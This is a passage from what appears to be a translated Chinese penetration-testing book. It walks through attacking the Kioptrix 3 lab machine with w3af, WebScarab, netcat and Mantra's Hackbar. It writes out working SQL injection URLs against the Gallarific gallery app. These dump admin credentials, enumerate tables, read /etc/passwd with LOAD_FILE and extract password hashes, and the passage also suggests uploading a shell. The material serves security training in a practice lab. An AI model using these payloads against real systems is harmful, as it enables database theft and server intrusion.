为了确保我们正在运行正确的配置文件，我们检查可用的命令，以找到一个可以为我们提供所需信息的命令。如果您已经知道有关站点的某些信息，可以通过创建自定义配置文件以匹配正在扫描的配置来节省时间。例如，在不使用 IIS 的服务器上扫描 IIS 漏洞没有意义。

```
w3af/profiles>>> list 

```

这里我们提供了一个可用的预配置配置文件列表。



```
w3af/profiles>>> use audit_high_risk 

```

use 命令允许我们指定扫描期间要使用的配置文件。

```
w3af/profiles>>> back 

```

我们回到 w3af 默认部分，准备开始配置的扫描。

```
w3af>>> plugins
w3af/plugins>>> output

```

```
|-----------------------------------------------------|
| Plugin name | Status | Conf | Description |
|-----------------------------------------------------|
| console | Enabled | Yes | Print messages to |
| | | | the console. |
| emailReport | | Yes | Email report to |
| | | | specified addresses. |
| gtkOutput | | | Saves messages to |
| | | | kb.kb.getData('gtkOutput', |
| | | | 'queue'), messages |
| | | | are saved in the |
| | | | form of objects. |
| htmlFile | | Yes | Print all messages |
| | | | to a HTML file. |
| textFile | | Yes | Prints all messages |
| | | | to a text file. |
| xmlFile | | Yes | Print all messages |
| | | | to a xml file. |
|-----------------------------------------------------|

```

输出将允许您设置输出类型，例如 XML、文本文件甚至 HTML。我们使用默认设置来启用 `htmlFile`输出（输出到 `report.html)`并暂时保持控制台启用。

```
w3af/plugins>>> output htmlFile 

```

这将启用 HTML 输出。

```
w3af>>> start 

```

正如您可能怀疑的那样，键入 `start`将使用我们刚才配置的设置启动扫描。如果有错误，请使用我们刚刚查看的命令检查并更正它们。当您遇到困难且不知道如何继续时，请记住使用“帮助”或“返回”。

扫描完成后，您将返回 w3af 提示符。查看结果，我们发现仍然没有能够快速、轻松地接管机器或获得远程外壳的明确发现。在这里，我们浏览到 Firefox 中的 `report.html`位置，以显示默认的 HTML 报告格式：



我们需要继续前进，并对我们的插件选择进行一些小的修改，以获得有趣的漏洞。插件可以按如下方式禁用、查看或启用：

```
w3af>>> plugins
w3af/plugins>>> help

```

```
|---------------------------------------------------------|
| list | List available plugins. |
|---------------------------------------------------------|
| back | Go to the previous menu. |
| exit | Exit w3af. |
| assert | Check assertion. |
|---------------------------------------------------------|
| audit | View, configure and enable audit plugins |
| grep | View, configure and enable grep plugins |
| evasion | View, configure and enable evasion plugins |
| bruteforce | View, configure and enable bruteforce |
| | plugins |
| discovery | View, configure and enable discovery |
| | plugins |
| mangle | View, configure and enable mangle plugins |
| output | View, configure and enable output plugins |
|---------------------------------------------------------|

```

我们可以通过键入诸如 `audit`之类的类别来查看哪些插件已启用。在这里，我们可以识别在使用 `audit_high_risk`配置文件时启用了哪些审计插件。

```
w3af/plugins>>> audit 

```

此命令提供以下控制台输出：



一些真正重要的插件没有启用。我们需要启用 `localFileInclude`和 `xss`以及 `rescan`。

```
w3af/plugins>>> audit xss, localFileInclude
w3af/plugins>>> audit

```

验证所有设置是否准确；如果遇到错误，请重新设置目标，然后重新开始扫描。扫描完成后，查看检查结果。您应该注意到，已检测到本地文件包含漏洞。我们还在[处检测到许多未经确认的 We 应用程序错误 http://kioptrix3.com/gallery](http://kioptrix3.com/gallery) 。我们可以回到扫描仪，启用所有插件，然后再试一次，也可以手动查看可疑的 URL。

### 使用 WebScarab 作为 HTTP 代理

启用 web 代理并记录所有手动渗透测试活动是有益的。毕竟，您需要能够复制您的步骤，并编写报告来指示测试期间所采取的步骤。通过选择**应用程序【回溯】【漏洞评估】【Web 应用程序评估】【Web 漏洞扫描器】**可以在回溯中找到 WebScarab。

### 注

WebScarab 最初将使用 WebScarab Lite 接口。可通过使用**工具**下拉菜单，选择**使用全界面**并重新启动工具进行更改。

WebScarab 是 OWASP 团队提供的 HTTP 代理，它将帮助分析您的 HTTP 流量。启动代理后，我们需要将浏览器指向使用代理。

加载 Firefox，选择**编辑【首选项】【选项】【高级选项卡】【网络选项卡】**，点击**设置**按钮。选择**手动代理配置：**径向按钮，配置以下设置：

*   **HTTP 代理：**本地主机|端口：8008。
*   **SSL 代理：**本地主机|端口：8008。
*   **没有代理：**在此处删除条目。空白的

默认侦听器应该能够拾取您的会话。现在在您的浏览器中转到[http://kioptrix3.com](http://kioptrix3.com) 。如果一切正常，您没有收到任何错误，请转到[http://kioptrix3.com/gallery/](http://kioptrix3.com/gallery/) 点击返回 WebScarab 并选择**摘要**选项卡查看我们的代理结果：



有一件事立即证实了 w3af 遇到的未知应用程序错误问题。网址[http://kioptrix3.com/gallery/](http://kioptrix3.com/gallery/) 在尝试 SQL 注入攻击之前已经返回了 500 个应用程序错误。自动扫描器很难处理异常行为，因此，我们必须自己进一步调查。如果此时这个概念令人困惑，请尝试以下方法来确认我们的怀疑是正确的。打开一个新的回溯终端会话并调用 netcat:

```
# nc kioptrix3.com 80 

```

连接完成后，输入以下内容：

```
GET http://kioptrix3.com/gallery/ 

```

我们直接提取数据，使我们能够最大程度地控制信息。如有疑问，请使用 netcat！结果如下：

```
HTTP/1.0 500 Internal Server Error 
Date: Sun, 04 Dec 2011 23:36:00 GMT
Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
X-Powered-By: PHP/5.2.4-2ubuntu5.6
Set-Cookie: PHPSESSID=f04693abb030c65c52014ea6bb99aafb; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 5653
Connection: close
Content-Type: text/html

```

突出显示的部分确认应用程序立即返回错误代码和请求的页面。

现在是时候使用 WebScarab 来拦截我们的消息，以准确了解我们正在处理什么。在 WebScarab 中打开**代理**页签，点击**手动编辑**页签，勾选**截取响应**框。通过截取响应，我们可以查看包，看看是否有什么有趣的东西被传递到服务器。如果愿意，我们现在也可以更改任何变量或隐藏字段。

现在我们正在拦截，请返回您的浏览器屏幕并重新加载[http://kioptrix3.com/gallery/](http://kioptrix3.com/gallery/) 页。您将获得以下信息：



截获的数据将包括以解析和原始格式返回的响应。了解正常反应应该是什么样子是至关重要的。这些线索将使您能够出色地发现 web 应用程序中的漏洞。在本例中，我们可以再次看到服务器在其头中响应 500 个内部服务器错误。当查看原始来源时，我们还看到有一些引用称为 Gallarific。与任何软件一样，当您能够确定运行的是什么时，您应该快速查找已知漏洞。

### 注

请记住该过程：找出正在运行的内容，确定是否正确设置和/或是否存在已知漏洞，然后进行测试。

前往[http://www.exploit-db.com](http://www.exploit-db.com) 并搜索 GALLARIFIC。目前的结果如下：


对于这个简单的应用程序，我们有三种不同的漏洞利用方式可供选择。这还不包括我们能够使用自动化工具定位的本地文件注入。如果您选择列表中的第一项，即**GALLARIFFIC PHP 照片库**漏洞，您将看到提交该漏洞的人甚至很好地将指向[管理面板的路径包括在内 http://kioptrix3.com/gallery/gadmin/](http://kioptrix3.com/gallery/gadmin/) ，以防我们在之前的扫描结果中遗漏了它（还记得看到关于某件有趣的事情被注释掉的通知：`<!-- a href="gadmin">Admin</a>&nbsp; &nbsp; -->`？

### 注

请记住，您的回溯机器上已经存在漏洞数据库！如果您是在一个分段网络上，那么您就没有理由留下来删除利用代码或概念验证说明。你的机器上已经有了！

如果您正确执行 Gallarific 搜索，您还将发现其他漏洞。以下是一些相关的 CVE 参考：

*   CVE-2008-1326
*   CVE-2008-1327
*   CVE-2008-1464
*   CVE-2008-1469
*   CVE-2008-6567

    ### 提示

    位于[的 OSVDB（开源漏洞数据库）http://osvdb.org/](http://osvdb.org/) 也是查找软件漏洞信息的重要资源。如果您发现一个易受攻击的软件版本，您很可能还会发现任何相关的概念验证代码（如果存在），因为利用数据库团队已花费大量精力确保其 CVE 连接到 OSVDB。

现在看一下漏洞利用定义，我们看到提供了如下示例代码（由于 AtT4CKxT3rR0r1ST 向 `Exploit-DB.com):`提交了此概念验证漏洞利用代码，因此应予以表扬）

```
www.site.com/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users-- 

```

### 提示

关闭拦截，除非您想确认每个响应。

当然，为了使用这个例子，我们需要做一些修改。首先，我们需要更正[www.site.com](http://www.site.com)条目。将其替换为 `kioptrix3.com`。然后，我们需要添加我们的画廊子文件夹，以便我们找到正确的网站：

```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users-- 

```

如果您尝试此代码，您会发现它没有按计划工作。我们需要回到我们的 web 应用程序测试基础，并确定问题是什么。让我们在这里尝试一下，看看会发生什么。我们将简化查询，看看它是否有效。

```
http://kioptrix3.com/gallery/gallery.php?id=null%20and%201=2%20union%20select%201,2,3,4,5,6,7,8 

```

作为响应，我们仍然收到以下错误：

```
The used SELECT statements have a different number of columns. Could not select category

```

如果您熟悉 SQL 注入，那么您已经知道问题所在。我们的专栏太多了。现在，我们将迭代列计数，直到不再收到错误消息。请尝试以下操作：

```
http://kioptrix3.com/gallery/gallery.php?id=null%20and%201=2%20union%20select%201,2,3,4,5,6 

```

现在我们看到了更有趣的东西。我们的 SQL 注入成功了！接下来，我们将概念验证代码更改为以下内容，并尝试一下：

```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users-- 

```

此命令导致向我们提供用户名 `admin`和密码 `n0t7t1k4`。使用此信息登录[http://kioptrix3.com/gallery/gadmin](http://kioptrix3.com/gallery/gadmin) 浏览一下。您拥有应用程序的管理员权限，但尚未获得计算机本身的 root 权限。现在您知道可以使用 SQL 注入来获取数据库中的任何内容，开始考虑您还可以获取哪些内容；也不要忘记我们的文件包含漏洞！我们通过 Kioptrix 3 级的旅程尚未完成。

# 咒语导论

Mantra 浏览器为渗透测试人员提供了大量工具，使 web 应用程序测试高效有趣。它利用了多年来编写的许多基于浏览器的插件，这些插件可在[上获得 http://getmantra.com](http://getmantra.com) 。请务必查看本网站提供的一些编写良好且详细的教程，因为它们提供了超出基础的用例示例。我们将使用 Mantra 中的插件以高效的方式充分利用我们实验室中的 Kioptrix 3 机器。我们在本例中使用的主要插件是 Hackbar。您可以在[了解更多关于 Hackbar 的信息 https://addons.mozilla.org/en-US/firefox/addon/hackbar/](http://https://addons.mozilla.org/en-US/firefox/addon/hackbar/) 。Mantra 中的 Hackbar 和其他附加组件使测试 web 应用程序变得有趣，并允许知识渊博的渗透测试人员手动验证 web 应用程序的安全性。

### 注

您仍然需要了解 web 应用程序安全性是如何工作的，以及如何手动执行这些测试；Mantra 提供了许多手动测试所需的工具，使测试过程更加方便和高效。使用 Mutillidae 安装来填补您在测试常见 web 应用程序安全问题时的任何空白。

1.  我们的第一步是在回溯机器上打开 Mantra 浏览器。从导航菜单中选择**回溯****漏洞评估****漏洞扫描器****咒语**即可找到咒语。
2.  在 Mantra 中，使用浏览器的 URL 导航栏（[浏览到 Kioptrix 1.2 虚拟服务器上托管的网页 http://kioptrix3.com](http://kioptrix3.com) ）。
3.  使用 Mantra 中的 hackbar 输入以下 URL 并点击**执行**按钮：

    ```
    http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users-- 

    ```

4.  应向您提供用户名 `admin`和密码 `n0t7t1k4`。
5.  让我们来看看我们如何得到其他信息。在黑条中输入以下内容：[http://kioptrix3.com/gallery/gallery.php?id=1](http://kioptrix3.com/gallery/gallery.php?id=1) 点击**执行**。
6.  现在将光标放在[的末尾 http://kioptrix3.com/gallery/gallery.php?id=1](http://kioptrix3.com/gallery/gallery.php?id=1) 在 hackbar 中输入，添加一个空格，然后直接在 hackbar 上方单击**SQL**|**Union Select 语句**并在出现的弹出窗口中输入 `6`，然后单击**OK**。点击 hackbar**Execute**按钮验证 SQL 注入是否有效。
7.  现在，通过高亮显示并单击**SQL | MySQL |基本信息列**来替换查询中的数字 `2`，使您的 URL 现在看起来像这样：[http://kioptrix3.com/gallery/gallery.php?id=1 联合选择 1，CONCAT_WS（字符（32,58,32），用户（），数据库（），@@version），3,4,5,6](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,CONCAT_WS(CHAR(32,58,32),user(),database(),@@version),3,4,5,6)。点击 hackbar 上的**执行**并查看结果。输出应包含以下信息： `root@localhost : gallery : 5.0.51a-3ubuntu5.4`。您已成功枚举正在运行的用户、数据库名称和版本。
8.  此时，您可以使用任何典型的 SQL 注入技巧来枚举此数据库。尝试运行不同的命令，例如[http://kioptrix3.com/gallery/gallery.php?id=1 UNION 从信息 _schema.tables 中选择 1，table_name，3,4,5,6，其中 table_schema=database（）](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,table_name,3,4,5,6%20from%20information_schema.tables%20where%20table_schema=database())将列出当前数据库中的所有表。
9.  我们已经可以使用常用的 SQL 注入代码访问服务器上的某些文件，例如[http://kioptrix3.com/gallery/gallery.php?id=1 联合选择 1，加载 _ 文件（'/etc/passwd'），3,4,5,6](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,LOAD_FILE('/etc/passwd'),3,4,5,6)。这将列出服务器上的 passwd 文件。
10.  要提取利用用户的帐户信息，我们可以使用[http://kioptrix3.com/gallery/gallery.php?id=1 UNION 从 dev_accounts](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,username,password,4,5,6%20from%20dev_accounts)中选择 1，用户名，密码，4,5,6，这为我们提供了用户名 `loneferret`的信息，其密码散列值为 `5badcaf789d3d1d09794d8f021f40f0e`，用户 `dreg`的密码散列值为 `0d3eccfb887aabd50f243b3f155c0f85`。我们可以尝试破解这些用户密码。成功破解密码将为您提供以下凭据： `dreg`- `Mast3r`和 `loneferret`- `starwars`。

这些用户陷入了重复使用密码的陷阱。现在，您可以通过打开从回溯到 Kioptrix 机器的 SSH 会话登录到实验室的 Kioptrix 1.2 机器。幸运的是，这些帐户不在 sudoers 列表中。现在我们需要提升其中一个帐户的权限。

### 注

在这一点上，您几乎是 Kioptrix 1.2 级机器的根。花点时间看看服务器，试着找出一种提升任一用户权限的方法。

一旦您使用 SSH 获得了 root 用户，就可以通过只使用网站将 shell 上传到 Kioptrix 1.2 级机器来再次挑战自己！有几种不同的方法可以实现这一点，如果您遇到困难，请查看 Web 上的众多演练之一。

# 总结

我们有机会真正开始构建测试环境，设置 Kioptrix、pfSense、Muttilidae、HAProxy 等工具。在实验室中使用这些工具有助于我们更好地了解我们正在测试的技术。最佳渗透测试人员拥有丰富的 IT 经验，因此他们能够在测试时以及向客户解释概念和缓解控制时利用这些经验。

我们还学习了如何使用 `lbd`等工具确定系统是否处于负载平衡状态，以及如何使用 Wafw00f 查找 web 应用程序防火墙。熟能生巧，牢记这一点，每一步都是以这样一种方式定义的，即你可以跟随并获得对技术的信心，或者只是简单地刷新你已经重要的技能集。毕竟，在安全领域要记住的事情太多了，很容易就脱离实际。

我们先介绍了使用 w3af 图形用户界面，然后介绍了我最喜欢的 w3af 控制台，如果您想更高效，可以编写该控制台的脚本。通过使用 Kioptrix1.2，我们能够逐步完成在尝试为客户机渗透大型 web 应用程序时可能采取的不同步骤。我们讨论过，有时自动化工具不足以发现漏洞，因此浏览器和 HTTP 代理（如 WebScarab）可以区分好的渗透测试和坏的渗透测试。我们还向您介绍了 Mantra，它将通过提供许多由社区创建的插件来帮助安全专业人员执行他们的工作，从而使您的 web 应用程序测试更加高效。

我们学到的最后一件事是 web 应用程序测试是一门复杂而难以掌握的艺术。如果你遇到问题，永远不要放弃，继续努力！

下一章将深入探讨利用漏洞和客户端攻击。我们了解缓冲区溢出，甚至创建自己的易受攻击程序。我们还讨论了不同的模糊器，如 BED 和 sfuzz。我们深入探讨了快速通道以及如何利用它来发起大规模网络攻击。我们还涉及防病毒避免和重新打包有效负载。最重要的是，我们讨论了社会工程工具包，它应该是每个 pentester 工具箱中一个非常宝贵的补充。